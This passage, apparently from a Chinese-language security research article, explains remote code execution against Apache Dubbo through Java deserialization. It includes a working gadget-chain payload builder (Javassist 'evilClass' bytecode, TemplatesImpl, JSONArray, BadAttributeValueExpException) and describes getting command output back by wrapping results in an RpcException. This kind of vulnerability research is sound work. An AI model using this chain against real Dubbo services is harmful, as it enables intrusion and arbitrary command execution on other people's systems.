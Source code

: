 核心代码：

```java
public static Object getObject() throws Exception {

    ClassPool pool = ClassPool.getDefault();
    CtClass clazz = pool.get("evilClass");
    byte[][] bytes = new byte[][]{clazz.toBytecode()};
    TemplatesImpl templates = TemplatesImpl.class.newInstance();
    setValue(templates, "_bytecodes", bytes);
    setValue(templates, "_name", "");
    setValue(templates, "_tfactory", null);

    JSONArray jsonArray = new JSONArray();
    jsonArray.add(templates);

    BadAttributeValueExpException val = new BadAttributeValueExpException(null);
    setValue(val,"val",jsonArray);

    HashMap hashMap = new HashMap();
    hashMap.put(templates,val);

    NativeJavaSerialization nativeJavaSerialization = new NativeJavaSerialization();
    UnsafeByteArrayOutputStream unsafeByteArrayOutputStream = new UnsafeByteArrayOutputStream();
    ObjectOutput o = nativeJavaSerialization.serialize(null, unsafeByteArrayOutputStream);
    o.writeObject(hashMap);
    return unsafeByteArrayOutputStream.toByteArray();
}
```

命令回显
====

已经存在代码执行，那下一步就是需要研究如何让代码执行变成命令执行并回显。

一个很容易想到的方法，就是在Dubbo中动态注册一个服务，这个服务存在一个恶意的方法，作为客户端去调用这个方法就可以了。但是这个方法显然不够优雅，Dubbo不支持动态开启复用端口，因此需要新开一个端口去开启这个服务，这其实就跟直接在代码中监听端口，然后通过socket发送请求执行命令没什么区别了。

第二个方法，也是本文的重点：利用Dubbo通信中的一些特性完成漏洞回显。首先我也想到了利用Tomcat中类似的方法，动态注册filter这种思路，Dubbo也是使用的链式Filter去处理请求，但是我并没有找到如何去动态的给Dubbo增加filter的方法。

最终我使用的方法的思路核心，其实在本文的前面已经提到了。利用在服务调用中合适的时间点抛出一个`org.apache.dubbo.rpc.RpcException`异常，并在其Message中包裹命令执行的结果。下面介绍如何找到这个合适的时间点，以及如何让它抛出异常。

首先，直接在TemplatesImpl生成的对象中抛出`org.apache.dubbo.rpc.RpcException`异常是行不通的。原因在于这条链是通过TemplatesImpl的getOutputProperties方法触发的，这个方法如下：

```java
public synchronized Properties getOutputProperties() {
      try {
          return newTransformer().getOutputProperties();
      }
      catch (TransformerConfigurationException e) {
          return null;
      }
  }

```
